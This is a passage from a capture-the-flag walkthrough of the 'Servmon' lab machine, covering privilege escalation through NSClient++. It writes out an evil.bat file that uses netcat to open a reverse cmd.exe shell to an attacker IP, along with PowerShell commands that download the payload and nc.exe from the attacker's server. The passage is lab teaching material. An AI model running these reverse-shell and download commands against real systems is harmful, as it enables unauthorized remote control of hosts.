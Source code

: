 To our Bad only `localhost` is allowed

From here on there are `2 ways` to do it One is `Port Forwarding` and another one is `Curl`

I am going to do it with curl as `Website` was damm slow and I only got login screen 1 in 10 times

Acc to exploit we need to enable following modules including enable at startup and save configuration

>- CheckExternalScripts
>- Scheduler

But they are enabled by default you can verify that in config file

# Privilege Escalation:~$


## Nadine → Sysadmin:~$

Read about API of Nsclient++ [Here](https://docs.nsclient.org/api/rest/)

So Accoding to exploit 

Let's transfer `nc.exe` and `evil.bat` on machine


evil.bat
```
~/htb/boxes/Servmon >> cat evil.bat 
@echo off
C:\temp\nc.exe  10.10.14.168 443 -e cmd.exe
```

Create a `python server` on you system in the directory where both the files are located

> python -m SimpleHTTPServer 1377

On Victim Machine

```bash
nadine@SERVMON C:\Users\Nadine>powershell
Windows PowerShell                                          
Copyright (C) Microsoft Corporation. All rights reserved.   
                                                            
Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\Nadine> cd C:\Temp\

PS C:\Temp> wget http://<YOUR IP>:1337/evil.bat -o evil.bat

PS C:\Temp> wget http://<YOUR IP>:1337/nc.exe -o nc.exe

PS C:\Temp> ls


    Directory: C:\Temp                                                                                                                                               
                                                                                                                                                                     
                                                                                                                                                                     
Mode                LastWriteTime         Length Name                                                                                                                
----                -------------         ------ ----                                                                                                                                                                        
-a----       05/05/2020     14:04             53 evil.bat                                                                                                                                                                                                                    
-a----       05/05/2020     14:06          59392 nc.exe                                                                                                              
```